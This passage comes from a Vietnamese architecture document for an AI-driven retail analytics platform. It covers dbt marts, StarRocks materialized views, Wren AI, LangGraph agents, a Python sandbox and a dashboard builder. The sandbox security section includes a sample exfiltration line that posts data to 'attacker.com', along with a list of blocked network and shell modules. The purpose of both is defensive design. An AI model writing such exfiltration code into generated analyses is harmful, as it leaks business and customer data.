| Không có `order_quarter` | `order_quarter: 2` | Tính toán thêm field phụ |
| `orders` + `order_items` riêng lẻ | Gộp lại cùng 1 row | Denormalize cho dễ query |

---

##### Chặng 6️⃣: dbt Marts Layer — "Sản Phẩm Hoàn Thiện, Sẵn Sàng Bán"

Marts là layer cuối cùng của dbt — **pre-compute các metric business cần**. Đây là nơi "trả lời sẵn" những câu hỏi thường gặp.

**dbt Marts Layer** (`fct_revenue.sql`): Pre-computed KPIs theo `order_date × city × customer_segment`. Measures: `total_orders` (COUNT DISTINCT), `revenue` (SUM), `avg_order_value` (AVG), `unique_customers` (COUNT DISTINCT). Filter: `status NOT IN ('cancelled', 'refunded')`.
> ⚠️ **LƯU Ý**: `unique_customers` = COUNT(DISTINCT) chấp nhận được tại grain này nhưng KHÔNG ĐƯỢC rollup thêm (SUM sẽ double-count). Nếu cần rollup → dùng `HLL_RAW_AGG` + `HLL_UNION_AGG`

**Kết quả — table `fct_revenue` trong StarRocks:**

| order_date | city | customer_segment | total_orders | revenue | avg_order_value | unique_customers |
|:-----------|:-----|:----------------|:-------------|:--------|:---------------|:----------------|
| 2026-04-07 | Hồ Chí Minh | VIP | 15 | 12.500.000₫ | 833.333₫ | 12 |
| 2026-04-07 | Hà Nội | Regular | 28 | 8.200.000₫ | 292.857₫ | 25 |
| ... | ... | ... | ... | ... | ... | ... |

> **Ví von**: Marts layer giống **sản phẩm trưng bày trên kệ** — đã được đóng gói, dán giá, sẵn sàng cho khách mua. Khách (AI Agent) chỉ cần lấy xuống, không phải vào kho tìm nguyên liệu rồi tự nấu.

**Tại sao cần Marts mà không query trực tiếp Staging?**

| Query | Từ Staging (mỗi lần tính lại) | Từ Marts (đã tính sẵn) |
|:------|:------------------------------|:----------------------|
| "Doanh thu hôm nay?" | `SELECT SUM(total) FROM stg_orders WHERE ...` → scan hàng triệu rows | `SELECT revenue FROM fct_revenue WHERE order_date = today` → 1 row |
| Thời gian | **2-5 giây** (tùy data size) | **< 50ms** |
| Chi phí compute | Cao (mỗi lần tính lại) | Thấp (tính 1 lần, dùng nhiều lần) |

---

##### Chặng 7️⃣: StarRocks Materialized Views — "Bảng Tổng Hợp Tự Cập Nhật"

StarRocks có thêm một lớp optimization — **Materialized Views** (MV). MV giống Marts nhưng tự động cập nhật khi data thay đổi, và StarRocks tự động route query tới MV phù hợp nhất.

**MV Example** (`mv_monthly_region`): `REFRESH ASYNC EVERY 15 MINUTE`. Aggregate `fct_revenue` theo `DATE_TRUNC('month')` × `city` → `monthly_revenue`, `monthly_orders`, `monthly_customers`. StarRocks tự auto-rewrite query tới MV → **nhanh hơn 10-100x**

**Query rewrite tự động**: Khi AI Agent query `SELECT SUM(revenue) FROM fct_revenue GROUP BY MONTH(order_date)`, StarRocks tự động đọc từ MV thay vì scan toàn bộ `fct_revenue` → **nhanh hơn 10-100x**.

---

##### Chặng 8️⃣: Wren AI Semantic Layer — "Phiên Dịch Viên Ngôn Ngữ"

Wren AI nằm **giữa** StarRocks và AI Agent. Vai trò: **map thuật ngữ business** → SQL trên StarRocks.

**Cấu hình MDL (Modeling Definition Language):**

**Wren AI MDL Config** (YAML — cần tạo):
- **Models**: `revenue` → `table_ref: fct_revenue`, columns: `order_date` (Ngày đặt hàng), `revenue` (Tổng doanh thu VND, đã loại hủy/refund), `avg_order_value`
- **Metrics**: "Doanh thu" → `SUM(revenue)`, "Doanh thu trung bình mỗi đơn" → `AVG(avg_order_value)`
- **Relationships**: `revenue_by_region` → JOIN `revenue.city = dim_regions.city_name`

**Tại sao cần Wren AI mà không cho AI Agent query StarRocks trực tiếp?**

| Không có Wren AI | Có Wren AI |
|:-----------------|:-----------|
| User hỏi: *"Doanh thu Q1?"* | User hỏi: *"Doanh thu Q1?"* |
| LLM phải đoán: `total` hay `revenue`? Table nào? Filter gì? | Wren AI biết: "Doanh thu" = `SUM(revenue)` từ `fct_revenue`, loại trừ đơn hủy |
| ❌ Có thể query nhầm table, nhầm column | ✅ SQL chính xác 100% cho metric đã define |
| ❌ "Doanh thu" có thể tính khác mỗi lần | ✅ "Doanh thu" luôn consistent (single source of truth) |

> **Ví von**: Wren AI giống **phiên dịch viên** trong cuộc họp. Sếp nói "doanh thu quý này", phiên dịch viên biết chính xác sếp muốn con số nào, lấy từ báo cáo nào, tính theo công thức nào — chứ không phải đoán mò.

---

##### Chặng 9️⃣: AI Agent (LangGraph) — "Bộ Não Xử Lý"

User gõ trong chat: **"Doanh thu Q1 2026 theo từng tháng như thế nào?"**

LangGraph Agent xử lý qua các bước:

```
🧠 Step 1: Planner Agent
   Input:  "Doanh thu Q1 2026 theo từng tháng như thế nào?"
   Output: Intent = "SQL_QUERY" (cần query database)
   
📊 Step 2: SQL Agent + Wren AI
   → Gửi câu hỏi tới Wren AI
   → Wren AI map: "Doanh thu" → SUM(revenue) from fct_revenue
   → Wren AI generate SQL:
   
   SELECT 
       DATE_TRUNC('month', order_date) AS thang,
       SUM(revenue) AS doanh_thu
   FROM fct_revenue
   WHERE order_date BETWEEN '2026-01-01' AND '2026-03-31'
   GROUP BY DATE_TRUNC('month', order_date)
   ORDER BY thang;

⚡ Step 3: Execute SQL on StarRocks
   → StarRocks tự động dùng mv_monthly_region (Materialized View)
   → Kết quả trả về trong < 50ms:
   
   | thang       | doanh_thu      |
   |-------------|----------------|
   | 2026-01-01  | 1.250.000.000₫ |
   | 2026-02-01  | 1.480.000.000₫ |
   | 2026-03-01  | 1.720.000.000₫ |

📈 Step 4: Viz Agent
   → Nhận data (3 rows) + câu hỏi "theo từng tháng"
   → Quyết định: Line Chart (trend over time)
   → Generate ECharts option JSON

✍️ Step 5: Synthesizer Agent
   → "Doanh thu Q1/2026 tăng trưởng đều qua 3 tháng, 
      từ 1.25 tỷ (T1) lên 1.72 tỷ (T3), tăng 37.6%.
      Tháng 3 cao nhất."
```

---

##### Chặng 9️⃣B: Khi Câu Hỏi Cần Python Code — "Phòng Thí Nghiệm K8s Pod Sandbox"

> [!IMPORTANT]
> **Không phải mọi câu hỏi đều giải quyết được bằng SQL.** Có những phân tích phức tạp cần Python: dự báo (forecasting), phân tích cohort, clustering, statistical testing, hoặc xử lý dữ liệu phi cấu trúc. Khi đó Agent sẽ đi qua **đường Python** thay vì đường SQL.

**Ví dụ**: User hỏi: **"Dự báo doanh thu 3 tháng tới dựa trên trend hiện tại, và vẽ biểu đồ so sánh actual vs forecast?"**

```
🧠 Step 1: Planner Agent
   Input:  "Dự báo doanh thu 3 tháng tới..."
   Output: Intent = "PYTHON_ANALYSIS" ← khác với SQL_QUERY!
   Reason: Cần forecasting (thống kê) → SQL không đủ, cần Python
   
📝 Step 2: Python Agent — Generate Code
   → LLM sinh ra Python script (KHÔNG sinh data, chỉ sinh CODE):
```

**Ví dụ LLM-generated Python code** (chạy trong K8s Pod Sandbox):
1. `pd.read_sql()` query `fct_revenue` từ StarRocks (data từ DB, KHÔNG phải LLM bịa)
2. `LinearRegression().fit()` trên monthly revenue data
3. `model.predict()` cho 3 tháng tới
4. Plotly chart: Actual (solid) vs Forecast (dashed)
5. Output summary: forecast values + growth trend

```
⚡ Step 3: K8s Pod Sandbox Execution
   → Code được gửi tới K8s Pod Sandbox (K8s ephemeral pod)
   → Sandbox đã pre-installed: pandas, numpy, scikit-learn, plotly, matplotlib
   → Sandbox có connection string tới StarRocks (read-only)
   → Thực thi code trong ~2-3 giây
   → Output: 
     - ECharts chart (JSON option config)
     - Printed summary text
     - Execution log (cho debugging)

✅ Step 4: Result Validation
   → Kiểm tra: code có chạy thành công?
   → Kiểm tra: output có chart object?
   → Kiểm tra: forecast values có hợp lý? (không âm, không quá lớn)

💬 Step 5: Synthesizer Agent
   → Tổng hợp chart + summary → trả về cho user
```

**User nhìn thấy trên màn hình:** AI response gồm: (1) Forecast summary text (T4-T6 + growth trend); (2) Interactive ECharts chart (Actual line + Forecast dashed); (3) Generated Python [View Code] [Edit & Re-run]; (4) Data Source lineage (fct_revenue, StarRocks); (5) Execution info (K8s Pod Sandbox, runtime); (6) Artifact ID (cached)

##### 🔀 So Sánh 2 Đường Đi: SQL Path vs Python Path


```mermaid
graph TD
    USER["👤 User Query"] --> PLAN["🧠 Planner Agent"]
    
    PLAN --> |"Câu hỏi aggregate<br/>đơn giản"| SQL_PATH["📊 SQL Path"]
    PLAN --> |"Câu hỏi cần thống kê,<br/>ML, phân tích phức tạp"| PY_PATH["🐍 Python Path"]
    
    subgraph "SQL Path (nhanh, đơn giản)"
        SQL_PATH --> WREN["Wren AI<br/>Semantic Layer"]
        WREN --> SQL_GEN["Generate SQL"]
        SQL_GEN --> SQL_EXEC["Execute on<br/>StarRocks"]
    end
    
    subgraph "Python Path (linh hoạt, mạnh)"
        PY_PATH --> PY_GEN["LLM Generate<br/>Python Code"]
        PY_GEN --> SANDBOX["K8s Pod Sandbox<br/>(pandas, sklearn,<br/>plotly, etc.)"]
        SANDBOX --> |"1. Query StarRocks<br/>(pd.read_sql)"| SQL_IN_PY["SQL trong Python<br/>vẫn lấy data từ DB!"]
        SQL_IN_PY --> |"2. Process<br/>& Analyze"| COMPUTE["Statistical<br/>Analysis"]
        COMPUTE --> |"3. Visualize"| PY_VIZ["Generate<br/>Chart"]
    end
    
    SQL_EXEC --> RESULT["📊 Verified Result<br/>(data từ DB)"]
    PY_VIZ --> RESULT
    
    RESULT --> RESPOND["💬 Response to User"]
    
    style SQL_PATH fill:#4F46E5,stroke:#333,color:#fff
    style PY_PATH fill:#059669,stroke:#333,color:#fff
    style SQL_IN_PY fill:#DC2626,stroke:#333,color:#fff
```

> [!CAUTION]
> **Điểm mấu chốt**: Ngay cả trong Python path, **data vẫn phải đến từ database** qua `pd.read_sql()`. Python chỉ dùng để **xử lý/phân tích** data đã lấy từ DB — KHÔNG BAO GIỜ tự tạo data. Đây là sự khác biệt quan trọng nhất so với LLM tự hallucinate dữ liệu.

##### 🔒 K8s Pod Sandbox Security — Chống Data Exfiltration

> [!CAUTION]
> **Rủi ro**: K8s Pod Sandbox có read-only connection tới StarRocks. LLM-generated Python code **có thể** exfiltrate data qua:
> - `pd.read_sql("SELECT * FROM fct_sales_daily")` → đọc toàn bộ raw data
> - `requests.post("https://attacker.com", data=df.to_json())` → gửi data ra ngoài
> - Ghi data vào stdout/output → agent trả raw data về cho user
>
> Điều này **phá vỡ nguyên tắc "zero raw data exposure"** nếu không có kiểm soát.

**4 lớp bảo vệ cho K8s Pod Sandbox:**

| Layer | Mechanism | Mô tả |
|:------|:----------|:------|
| **L1: Network Isolation** | Firewall rules | Sandbox chỉ được truy cập StarRocks qua internal proxy. **KHÔNG** có outbound internet access. Block tất cả egress traffic trừ StarRocks proxy endpoint |
| **L2: Query Proxy trong Sandbox** | SQL Middleware | Sandbox KHÔNG connect trực tiếp tới StarRocks. Mọi SQL query phải đi qua **Sandbox Query Proxy** — enforce RBAC, `LIMIT` clause, và column filtering |
| **L3: Output Sanitization** | Post-execution check | Trước khi trả kết quả về user: kiểm tra row count (max 10,000), mask sensitive columns (cogs, margin, supplier_price), reject raw DataFrame dumps |
| **L4: Code Static Analysis** | Pre-execution scan | Scan generated code trước khi execute: block `requests`, `urllib`, `socket`, `subprocess`, `os.system`. Whitelist chỉ cho phép: pandas, numpy, sklearn, matplotlib, plotly |

**`SandboxSecurityConfig`** (cần implement):
- **L1 Network**: Chỉ cho phép `starrocks-proxy.internal:9030`, block tất cả egress khác
- **L2 Query**: `MAX_QUERY_ROWS=10,000`, blocked tables: `_airbyte_raw.*`, `user_data_permissions`, `audit_log`
- **L3 Output**: `MAX_OUTPUT_ROWS=500`, sensitive columns mask: `cogs`, `gross_margin`, `supplier_price`, `customer_email`, `customer_phone`
- **L4 Blocked modules**: `requests`, `urllib`, `httpx`, `socket`, `subprocess`, `os.system`, `shutil`, `pathlib`. Allowed: `pandas`, `numpy`, `scipy`, `sklearn`, `matplotlib`, `plotly`, `seaborn`, `statsmodels`, `prophet`
- **L5 Execution limits**: `MAX_EXECUTION_TIME_SEC=15` (SIGTERM 10s, SIGKILL 15s), `POD_ACTIVE_DEADLINE_SEC=30`

**`SandboxCodeValidator`** (pre-execution): AST parse → check imports against blocked modules + check dangerous calls (`system`, `popen`, `exec`, `eval`)

**`SandboxOutputSanitizer`** (post-execution): Truncate output > 500 rows + mask sensitive columns theo user permissions

**Khi nào dùng đường nào?**

| Loại câu hỏi | Đường đi | Ví dụ | Tại sao? |
|:-------------|:---------|:------|:---------|
| Aggregate đơn giản | **SQL** | "Doanh thu tháng này?" | `SUM(revenue)` — SQL đủ mạnh |
| Filter + Group By | **SQL** | "Top 10 sản phẩm bán chạy?" | `ORDER BY ... LIMIT 10` — SQL tối ưu |
| So sánh periods | **SQL** | "So sánh Q1 vs Q2?" | SQL window functions |
| Dự báo / Forecasting | **Python** | "Dự báo doanh thu 3 tháng tới?" | Cần ML model (sklearn) |
| Cohort Analysis | **Python** | "Tỷ lệ retention theo tháng đăng ký?" | Cần matrix computation (numpy) |
| Statistical Test | **Python** | "Sản phẩm A có bán tốt hơn B có ý nghĩa thống kê?" | Cần t-test (scipy) |
| Custom Visualization | **Python** | "Vẽ heatmap tương quan giữa các metrics?" | Cần seaborn/plotly phức tạp |
| File Processing | **Python** | "Phân tích file Excel này..." | Cần pandas read_excel |
| Text Analysis | **Python** | "Phân loại feedback khách hàng?" | Cần NLP libraries |

---

##### Chặng 🔟: User's Screen — "Kết Quả Cuối Cùng"

Dù đi theo đường SQL hay Python, user đều nhìn thấy kết quả với **cùng format**:

**User thấy gì?**
1. ✅ **Chart/Table** — data 100% từ database, không phải AI bịa
2. ✅ **Generated Code (SQL hoặc Python)** — transparent, user có thể verify, edit, và re-run
3. ✅ **Data lineage** — biết data lấy từ đâu, fresh tới khi nào
4. ✅ **Execution info** — chạy ở đâu (StarRocks vs K8s Pod Sandbox), mất bao lâu
5. ✅ **Artifact ID** — lần sau hỏi lại → trả về từ cache, không tốn LLM cost

---

##### 📐 Timeline Tổng Hợp — Từ Đơn Hàng Tới Chart


```mermaid
graph TD
    T0["⏱️ 14:00:00<br/>👤 Khách mua hàng tại siêu thị<br/>📍 MongoDB Production<br/>💾 db.transactions.insertOne()"] --> T1["⏱️ 14:00:00<br/>📹 Oplog ghi lại thay đổi<br/>📍 MongoDB Change Streams<br/>🔑 clusterTime: 1743951600"]
    
    T1 --> T2["⏱️ 14:05:02<br/>🚚 Airbyte sync job<br/>📍 Airbyte → StarRocks<br/>📦 47 rows transferred"]
    
    T2 --> T3["⏱️ 14:05:04<br/>📦 Data vào Raw Layer<br/>📍 StarRocks: _airbyte_raw<br/>🏷️ JSON blob, chưa xử lý"]
    
    T3 --> T4["⏱️ 14:08:00<br/>🔧 dbt run (Dagster trigger)<br/>📍 StarRocks: raw → staging<br/>🧹 Clean, JOIN, cast types"]
    
    T4 --> T5["⏱️ 14:08:15<br/>📊 dbt run tiếp<br/>📍 StarRocks: staging → marts<br/>📈 Pre-compute KPIs"]
    
    T5 --> T6["⏱️ 14:08:20<br/>✅ dbt test pass<br/>📍 Dagster logs<br/>🧪 Data quality OK"]
    
    T6 --> T7["⏱️ 14:08:25<br/>🔄 MV auto-refresh<br/>📍 StarRocks MV<br/>⚡ Aggregates updated"]
    
    T7 --> T8["⏱️ 14:08:30<br/>🧠 Wren AI aware of new data<br/>📍 Semantic Layer<br/>📖 Metrics ready to serve"]
    
    T8 --> T9["⏱️ 14:10:00<br/>💬 User hỏi 'Doanh thu Q1?'<br/>📍 Chat UI<br/>🤖 Agent processes query"]
    
    T9 --> T10["⏱️ 14:10:03<br/>📊 Chart hiển thị<br/>📍 User's screen<br/>✅ Data from DB, not AI"]
    
    style T0 fill:#ff6b6b,stroke:#333,color:#fff
    style T2 fill:#ffd93d,stroke:#333,color:#333
    style T4 fill:#6bcb77,stroke:#333,color:#333
    style T5 fill:#6bcb77,stroke:#333,color:#333
    style T8 fill:#4d96ff,stroke:#333,color:#fff
    style T10 fill:#9b59b6,stroke:#333,color:#fff
```

##### ⏱️ Tổng Thời Gian: Từ Đơn Hàng Tới Data Sẵn Sàng

| Chặng | Thời gian | Delay tích lũy | Bottleneck |
|:------|:----------|:---------------|:-----------|
| 1. Order created in Production | 0s | 0s | — |
| 2. Oplog / Change Streams capture | ~0s | ~0s | Gần như tức thì |
| 3. Airbyte CDC sync | 5 phút (interval) | **~5 phút** | ⚠️ Sync interval setting |
| 4. dbt Raw layer | ~2s | ~5 phút | Nhanh |
| 5. dbt Staging layer | ~10s | ~5 phút | Phụ thuộc data volume |
| 6. dbt Marts layer | ~5s | ~5 phút | Aggregate compute |
| 7. dbt test | ~5s | ~5 phút | Quality checks |
| 8. MV refresh | ~10s | ~5-8 phút | StarRocks internal |
| 9. User query → response | ~3s | ~3s | LLM + SQL execution |
| **Tổng end-to-end** | — | **~8-10 phút** | Phần lớn là sync interval |

> [!TIP]
> **Takeaway cho người mới**: Toàn bộ quá trình này **chạy tự động** 24/7, không cần ai can thiệp. Mỗi 5-15 phút, data mới nhất từ production sẽ tự chảy qua pipeline → sẵn sàng cho AI Agent trả lời câu hỏi. User chỉ cần mở chat và hỏi.

##### 🧩 Bảng Tóm Tắt: "Ai Làm Gì Trong Pipeline?"

| Thành phần | Vai trò qua ví von | Trong hệ thống | Input | Output |
|:-----------|:-------------------|:---------------|:------|:-------|
| **MongoDB** | 🏭 Nhà máy sản xuất | Production OLTP DB (POS, Inventory, Finance, Customer — ~95%, 2TB+) | App/POS requests | Raw transactional documents |
| **Change Streams / Oplog** | 📹 Camera giám sát | DB change log | insert/update/delete | Change events |
| **Airbyte** | 🚚 Xe chở hàng | CDC ingestion tool | Change Streams / Binlog events | Raw data in StarRocks |
| **dbt (Raw)** | 📦 Mở thùng hàng | SQL transformation | JSON blobs | Structured tables |
| **dbt (Staging)** | 🏷️ Kiểm tra & dán nhãn | SQL transformation | Raw tables | Clean, joined tables |
| **dbt (Marts)** | 🏪 Trưng bày trên kệ | SQL transformation | Staging tables | Pre-computed KPIs |
| **StarRocks** | 🏬 Siêu thị phân tích | OLAP database | All dbt output | Fast query results |
| **StarRocks MV** | 📋 Bảng tổng hợp sẵn | Materialized Views | Marts data | Ultra-fast aggregates |
| **Wren AI** | 🗣️ Phiên dịch viên | Semantic Layer | Business terms | Precise SQL queries |
| **LangGraph** | 🧠 Bộ não | Agent orchestration | User question | Code + insight |
| **K8s Pod Sandbox** | 🔬 Phòng thí nghiệm | Code execution | Python/SQL code | Verified results |
| **Next.js** | 📱 Màn hình hiển thị | Frontend UI | Agent response | Charts + tables |
| **Dagster** | ⏰ Quản đốc | Pipeline orchestrator | Schedule/events | Trigger pipeline steps |


---

## 6. Dashboard & Visualization

> [!IMPORTANT]
> **Mọi quyết định visualization phải xuất phát từ Use Cases thực tế, không phải từ capabilities của tools.** Phần dưới đây tổ chức toàn bộ kiến trúc visualization dựa trên 4 use cases cốt lõi (UC1–UC4) + 1 optional (UC5).

### 6.0. Use Cases & Visualization Architecture Overview

#### 6.0.1. Use Cases (UC1 → UC4)

| UC | Mô tả | Users | Tần suất | Priority |
|:---|:------|:------|:---------|:---------|
| **UC1** | **Dashboard Viewer** — Xem các dashboard (global/personal) đã build sẵn. Data tự động cập nhật, multi-dimensional filters | Tất cả users | Hàng ngày, nhiều lần/ngày | 🔴 **P0** |
| **UC2** | **AI Chat Analysis** — Chat với AI để tra cứu, phân tích dữ liệu. Kết quả: chart, bảng, insight text. Charts có thể **"Add to Dashboard"** hoặc **"Add to Report Page"** | Tất cả users | Nhiều lần/tuần | 🟡 **P1** |
| **UC3** | **Dashboard Builder** — Tạo dashboard mới hoặc edit existing. **Hybrid: Traditional Widget Builder + AI Builder** (2 modes). Personal dashboard (shareable, collaborative) hoặc Global dashboard (chỉ power user tạo/sửa) | Personal: tất cả users. Global: power users only | Hàng tuần (build), daily (view) | 🟡 **P1** |
| **UC4** | **Report Page Builder** — Tạo báo cáo (chart + text + table). AI hỗ trợ generate. Export PDF, share link | Analysts, managers, data team | Hàng tuần, hàng tháng | 🟡 **P1** |

> [!IMPORTANT]
> **Chart là atomic unit** — được chia sẻ xuyên suốt 4 use cases:
> - UC2 (Chat) tạo ra chart → user có thể **"Add to Dashboard"** (UC3) hoặc **"Add to Report Page"** (UC4)
> - UC3 (Dashboard) = **grid layout** các charts + **shared filter panel**
> - UC4 (Report Page) = **page layout** các charts + **text/table blocks** user tự thêm
> - Nếu Report Page chỉ chứa charts (không có text/table) → nó **chính là Dashboard** về mặt hiển thị
>
> **Dashboard access model** (phân quyền rõ ràng):
> - **Personal dashboard**: Bất kỳ user nào cũng tạo được. Có thể **share** cho người khác xem hoặc **mời cộng tác** (collaborative editing). Owner kiểm soát quyền share
> - **Global dashboard**: Chỉ **power users** (được cấp quyền `dashboard_admin`) mới được tạo mới / chỉnh sửa. User thường chỉ xem (read-only)
> - **"Add to Dashboard"** từ Chat: User chỉ được add chart vào dashboard mình có **quyền edit** (personal own + personal được mời edit + global nếu là power user)

#### 6.0.2. Chart-Centric Architecture — Atomic Unit Model


```mermaid
graph TD
    subgraph "Atomic Unit: Chart Component"
        CHART["📊 Chart<br/>(ECharts component)<br/>= query config + viz config"]
    end

    subgraph "Nguồn tạo Chart"
        UC2["💬 UC2: AI Chat<br/>User hỏi → AI tạo chart"] --> CHART
        AI_BUILD["🤖 UC3: AI Builder<br/>NL → widget config"] --> CHART
        TRAD_BUILD["⚙️ UC3: Traditional Builder<br/>Drag-drop + config panel"] --> CHART
    end

    subgraph "Surfaces sử dụng Chart"
        CHART --> |"Add to Dashboard<br/>(requires edit permission)"| DASH["📊 UC3: Dashboard<br/>= GridLayout of Charts<br/>+ Shared Filter Panel"]
        CHART --> |"Add to Report"| REPORT["📄 UC4: Report Page<br/>= PageLayout of Charts<br/>+ Text/Table Blocks"]
        CHART --> |"Inline display"| CHAT_DISPLAY["💬 UC2: Chat Response<br/>= Ephemeral chart in thread"]
        CHART --> |"View only"| VIEWER["👁️ UC1: Dashboard Viewer<br/>= Read-only dashboard/report"]
    end

    DASH --> |"publish"| VIEWER
    REPORT --> |"share link / PDF"| VIEWER

    style CHART fill:#059669,stroke:#333,color:#fff
    style DASH fill:#D97706,stroke:#333,color:#fff
    style REPORT fill:#4F46E5,stroke:#333,color:#fff
```

> [!TIP]
> **Dashboard ⊂ Report Page**: Về bản chất, Dashboard là Report Page đặc biệt — chỉ chứa grid layout charts mà không có text/table. Kiến trúc xử lý chúng từ **cùng 1 data model**, chỉ khác `layout_type`:
> ```typescript
> type LayoutType = 'grid' | 'page';  // grid = Dashboard, page = Report Page
> ```

#### 6.0.3. Visualization Stack — 5 Layers (UC1 → UC4)

| Layer | Use Case | Component | Vai trò | Performance Target |
|:------|:---------|:----------|:--------|:-------------------|
| **Layer 1: Viewer** | UC1 | **ECharts** via `echarts-for-react` | Xem dashboard/report đã publish. Read-only, cached | ⚡ **< 50ms** (cache hit) |
| **Layer 2: AI Chat Charts** | UC2 | **ECharts** (AI generate JSON option) | Chat → LLM → ECharts JSON → render. "Add to Dashboard/Report" | ⏱️ **2-5s** (LLM + query) |
| **Layer 3: Dashboard Builder** | UC3 | **react-grid-layout** + ECharts config | Grid layout, drag-drop, shared filters. Personal/Global | ⏱️ **instant** (drag-drop) |
| **Layer 4: Report Builder** | UC4 | **BlockNote** + **ECharts** custom blocks | Page layout: text + chart + table blocks. AI-assisted, PDF export | ⏱️ **3-8s** (generate page) |
| **Layer 5: Data Explorer** | UC2 (optional) | **Graphic Walker** (optional) | Drag-drop Tableau-like exploration | ⏱️ **200-500ms** |

#### 6.0.4. Layer 3: Dashboard Builder — Hybrid Traditional + AI (UC3)

> [!IMPORTANT]
> **Triết lý thiết kế**: Không phải user nào cũng quen với traditional BI widget builder (chọn metric, dimension, chart type...). Giải pháp: cung cấp **2 modes song song** — user chọn mode phù hợp với kỹ năng của mình. Cả 2 modes tạo ra cùng 1 output: `DashboardWidget` object.

##### 2 Builder Modes — Cùng Output, Khác Input


```mermaid
graph TD
    subgraph "Mode A: AI Builder (Low Learning Curve)"
        AI_INPUT["💬 User mô tả bằng NL:<br/>'Tạo chart doanh thu<br/>theo tháng, chia theo khu vực'"]
        AI_PROC["🤖 AI Agent xử lý:<br/>1. Hiểu intent<br/>2. Chọn metric/dimension (Wren AI)<br/>3. Chọn chart type<br/>4. Generate query + config"]
        AI_PREVIEW["👁️ Preview + Refine:<br/>'Đổi sang line chart'<br/>'Thêm filter VIP customer'"]
    end

    subgraph "Mode B: Traditional Builder (Full Control)"
        TRAD_TOOLBOX["🧰 Widget Toolbox:<br/>KPI | Line | Bar | Pie<br/>Table | Geo | Gauge"]
        TRAD_CONFIG["⚙️ Config Panel:<br/>- Chọn metric từ dropdown<br/>- Chọn dimension<br/>- Chọn chart type<br/>- Custom filters"]
        TRAD_STYLE["🎨 Style Panel:<br/>Colors, labels, axis,<br/>legends, thresholds"]
    end

    AI_INPUT --> AI_PROC
    AI_PROC --> AI_PREVIEW
    AI_PREVIEW --> WIDGET["📊 DashboardWidget<br/>(same output format)"]

    TRAD_TOOLBOX --> TRAD_CONFIG
    TRAD_CONFIG --> TRAD_STYLE
    TRAD_STYLE --> WIDGET

    WIDGET --> CANVAS["📐 Grid Canvas<br/>(react-grid-layout)<br/>Drag, resize, reorder"]

    subgraph "Hybrid: Switch Anytime"
        SWITCH["🔄 User có thể switch:<br/>AI tạo xong → Traditional fine-tune<br/>Traditional tạo xong → AI refine"]
    end

    WIDGET --> SWITCH
    SWITCH --> WIDGET

    style AI_INPUT fill:#6366F1,stroke:#333,color:#fff
    style TRAD_TOOLBOX fill:#D97706,stroke:#333,color:#fff
    style WIDGET fill:#059669,stroke:#333,color:#fff
    style CANVAS fill:#059669,stroke:#333,color:#fff
```

##### So Sánh 2 Modes

| Aspect | Mode A: AI Builder | Mode B: Traditional Builder | Hybrid |
|:-------|:-------------------|:---------------------------|:-------|
| **Input** | Natural language (Vietnamese/English) | GUI dropdowns, drag-drop | Switch giữa 2 modes bất kỳ lúc nào |
| **Target users** | Business users, managers, bất kỳ ai | Power users, data team, analysts | Tất cả |
| **Learning curve** | Gần như zero — chat = build | Cần hiểu metrics, dimensions, chart types | Tiệm cận zero |
| **Tốc độ** | 30s - 2 phút/widget | 2-5 phút/widget | Nhanh nhất khi kết hợp |
| **Control** | AI chọn hộ, user refine | User kiểm soát 100% | Full control khi cần |
| **Ví dụ workflow** | "Tạo chart doanh thu theo tháng" → AI generate → user accept | Drag "Line Chart" → chọn metric "revenue" → chọn dimension "month" | AI tạo → user mở Traditional panel để fine-tune màu sắc, axis |
| **Khi nào dùng** | Tạo nhanh, khám phá, không biết bắt đầu từ đâu | Biết chính xác muốn gì, cần customize chi tiết | Default: bắt đầu bằng AI, tinh chỉnh bằng Traditional |

> [!TIP]
> **UX Pattern: AI-First, Traditional-Fallback**
> - Khi user tạo widget mới → mặc định mở **AI Builder** (ô chat nhỏ)
> - User mô tả → AI tạo chart → preview
> - Nếu cần fine-tune (màu sắc, axis range, label format...) → click **"⚙️ Advanced Config"** → mở Traditional Config Panel
> - Ngược lại: nếu user bắt đầu bằng Traditional → có nút **"🤖 Ask AI to improve"** để AI gợi ý optimization
>
> Approach này giảm learning curve cho 300-500 nhân viên siêu thị (phần lớn không phải data analysts).

##### Dashboard Builder — Full Concept (Hybrid)


```mermaid
graph TD
    subgraph "Dashboard Builder Canvas"
        CANVAS["📐 Grid Canvas<br/>(react-grid-layout)"]
        FILTER["🔍 Shared Filter Panel<br/>Time | Region | Category | Store"]
    end

    subgraph "Add Widget (2 paths)"
        AI_BTN["🤖 AI Mode (default)<br/>'Mô tả chart bạn muốn...'"]
        TRAD_BTN["⚙️ Traditional Mode<br/>Drag widget from toolbox"]
    end

    subgraph "Widget Editor"
        AI_EDIT["💬 AI Refine<br/>'Đổi sang stacked bar'"]
        TRAD_EDIT["⚙️ Config Panel<br/>metric/dimension/style"]
        SWITCH["🔄 Switch Mode"]
    end

    AI_BTN --> AI_EDIT
    TRAD_BTN --> TRAD_EDIT
    AI_EDIT --> SWITCH
    TRAD_EDIT --> SWITCH
    SWITCH --> AI_EDIT
    SWITCH --> TRAD_EDIT
    AI_EDIT --> CANVAS
    TRAD_EDIT --> CANVAS

    CANVAS --> PREVIEW["👁️ Live Preview"]
    PREVIEW --> PUBLISH["📤 Publish / Share"]

    subgraph "Data Flow"
        AI_EDIT --> |"generate query"| PROXY["🔒 Query Proxy"]
        TRAD_EDIT --> |"query config"| PROXY
        PROXY --> SR["StarRocks"]
    end

    style AI_BTN fill:#6366F1,stroke:#333,color:#fff
    style TRAD_BTN fill:#D97706,stroke:#333,color:#fff
    style CANVAS fill:#059669,stroke:#333,color:#fff
```

##### Dashboard Definition Data Model

**Dashboard Data Model** (PostgreSQL JSONB — cần implement):

**`Dashboard`**: `id`, `title`, `slug` (URL-friendly), `status` (draft/published), `layouts` (react-grid-layout: lg/md/sm breakpoints), `widgets[]`, `globalFilters` (timeRange, region, category, brand, custom[]), `refreshInterval` (seconds)
- **Access Control**: `visibility` (personal/global), `owner`, `collaborators[]` (userId, permission: view/edit), `requiredRoleToEdit`, `allowedViewRoles[]`
- **Permission Logic**: `canView` = owner OR collaborator OR global OR allowedRole. `canEdit` = owner OR edit-collaborator OR (global AND dashboard_admin). `canAddChartToDashboard` = same as `canEdit`

**`LayoutItem`**: `i` (widget ID), `x`, `y`, `w`, `h` (grid position/size)

**`DashboardWidget`**: `id`, `type` (kpi/line/bar/pie/scatter/geo/table/gauge/treemap/funnel/heatmap), `title`, `queryConfig` (queryTemplate dùng parameterized queries — KHÔNG string interpolation, metrics[], dimensions[], sortBy, limit), `echartOption` (ECharts JSON overrides)

##### Tech Stack — Hybrid Dashboard Builder

